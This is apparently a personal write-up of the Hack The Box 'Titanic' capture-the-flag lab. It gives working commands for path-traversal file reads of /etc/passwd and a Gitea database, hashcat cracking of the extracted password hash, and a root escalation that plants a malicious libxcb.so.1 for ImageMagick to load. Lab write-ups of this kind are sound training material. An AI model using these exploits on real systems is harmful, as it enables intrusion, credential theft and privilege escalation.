 # Titanic Lab-Total time 3 days

---

## The first and half of second day I used to recon the machine and website and scripts to use, rest of second day and third i actively looked around the machine for the flags and scripts to use to escalate privileges.

### MARKED AS EASY BUT IT WAS NOT FOR SOMEONE WITH LIMITED KNOWLEDGE

First step was to run nmap scan

```bash
nmap -sS -p- 10.10.11.55 -T5
```

Results:

![image (1).png](./images/image_(1).png)

I then ran port 80 scan to get more data on it

```bash
nmap -sV -p 80 10.10.11.55 -T5
```

![image (2).png](./images/image_(2).png)


I added the IP address to the host list

```bash
sudo nano /etc/hosts/
```

![image (3).png](./images/image_(3).png)


after doing that i ran gobuster scan with common wordlist

```bash
gobuster dir -u http://titanic.htb/ -w /usr/share/wordlists/dirb/common.txt
```

![image (4).png](./images/image_(4).png)


I visited the website and clicked around, i booked the ticket while checking browser web developer network section and noticed the the address that redirects to the download

![image (5).png](./images/image_(5).png)


After numerous types of research I found something called LFI (Local File Intrusion)

I researched common commands used with it and I used #curl

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

![image (6).png](./images/image_(6).png)


I recorded possible users like root, man, nobody, developer, _laurel

I then tried to check hosts

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/hosts"
```

Found a wildcard for the domain called dev.titanic.htb

![image (7).png](./images/image_(7).png)


![image (8).png](./images/image_(8).png)

I added the domain to the host list

![image (9).png](./images/image_(9).png)


And i ran gobuster again with the new domain added

![image (10).png](./images/image_(10).png)


I used curl to get data from admin, developer, administrator

and research showed that they are using gitea to host the site and found their repo

Upon reviewing the repo I found they were using #MYSQLas database

![image (11).png](./images/image_(11).png)


and their password

![image (12).png](./images/image_(12).png)


after researching how gitea sets up in a directory i tried with the previously recorded users which only developer worked.

```bash
curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

This saved the file with their whole database

I used

```bash
sqlite3 gitea.db
#once opened i ran.tables
```

![image (13).png](./images/image_(13).png)


I researched how to traverse database and tried multiple commands until i found the working one related to users

```bash
SELECT * FROM user;
```

This showed me the hashed credentials for users

![image (14).png](./images/image_(14).png)


Since we were working in developer i saved developer’s hash in a hash.txt file

I used AI translate the developer hash into sha256 I then used #hashcat

```bash
hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --outfile cracked.txt
```

This process took around 2-3 hours I successfully got access to the password for developer

![image (15).png](./images/image_(15).png)


developer:[REDACTED]


using ls i found file named user.txt which contained the flag for user

![image.png](./images/image.png)


After several minutes traversing around and looking around for root flag i found the root.txt file in tmp folder but i also figured out that developer did not have sudo power but in my search i found an interesting file that is running a script using magick, after investigating further I found out that Imagemagick was used to escalate privilages and did more research

![image (16).png](./images/image_(16).png)


Researching around i found a script that was used with magick i just modified the directories i needed

```bash
cd /tmp
gcc -shared -fPIC -o libxcb.so.1 -x c - << 'EOF'#include <stdlib.h>__attribute__((constructor)) void init() {    system("cp /root/root.txt /tmp/root.txt; chmod 644 /tmp/root.txt;");}EOF
```

This command compiles a C program into a shared object (library) named libxcb.so.1.

- **shared**: Instructs gcc to create a shared library (a .so file) rather than an executable.
- **fPIC**: Generates position-independent code, which is required for shared libraries to work correctly across different memory addresses.
- **o libxcb.so.1**: Specifies the output file name as libxcb.so.1.
- **x c**: Tells gcc to treat the input as C code, even though it’s not read from a file with a .c extension.
- **<< ‘EOF’**: Uses a here-document to provide the C code directly from the command line, ending when EOF is encountered.

```bash
mv /tmp/libxcb.so.1 /opt/app/static/assets/images/
```

Moves the compiled libxcb.so.1 from /tmp to /opt/app/static/assets/images/, the working directory of the identify_images.sh script.

By placing libxcb.so.1 in /opt/app/static/assets/images/, you increase the likelihood that ImageMagick loads our malicious library instead of the legitimate libxcb.so.1, triggering the payload.

```bash
cat /etc/crontab
```

Checking /etc/crontab (and possibly /etc/cron.*/*) helps confirm whether identify_images.sh is scheduled to run automatically as root via a cron job. For example, a line like */5*  * * * root /opt/scripts/identify_images.sh would indicate the script runs every 5 minutes as root.

```bash
cat /tmp/root.txt
```

Successfully obtained root flag
